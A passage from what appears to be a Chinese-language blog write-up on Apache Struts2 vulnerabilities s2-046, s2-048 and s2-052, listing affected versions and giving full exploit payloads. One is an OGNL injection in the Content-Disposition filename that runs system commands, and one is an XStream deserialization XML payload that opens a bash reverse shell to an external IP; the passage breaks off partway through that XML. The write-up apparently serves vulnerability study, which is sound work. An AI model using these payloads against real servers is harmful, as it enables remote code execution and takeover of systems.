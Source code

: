 ![图 7](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/7.png)

## s2-046

[参考](https://xz.aliyun.com/t/221)

影响版本：2.3.5 - 2.3.31, 2.5 - 2.5.10

类似 s2-045，这次修改的是 `Content-Disposition` 的 `filename` 字段。最后需要通过 `\x00b` 来截断 payload。

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c','ipconfig'}:{'/bin/bash','-c','id'})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b
```

注意上面 `\x00` 处在 burp 里需要通过 Hex 界面修改为 `00` 字节，因此网上 PoC 大多使用 python 脚本编写而不是 burp 重放。

![图 8](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/8.png)

## s2-048

[参考](https://www.freebuf.com/vuls/140410.html)

影响版本：2.0.0 - 2.3.32

struts1 插件中将用户输入的 message 作为 OGNL 表达式执行，导致任意代码执行。这里可以直接使用 s2-045 的 PoC。

## s2-052

[参考](https://developer.aliyun.com/article/197926)

影响版本：2.1.2 - 2.3.33, 2.5 - 2.5.12

REST 插件用 XStream 处理 application/xml 的数据包，在反序列化 XML 时可以导致代码执行。

暂时没有发现带回显的 PoC，可以反弹 shell 来验证：

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>bash</string>
                        <string>-c</string>
                        <string>bash -i >&amp; /dev/tcp/174.2.198.151/8080 0>&amp;1</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
```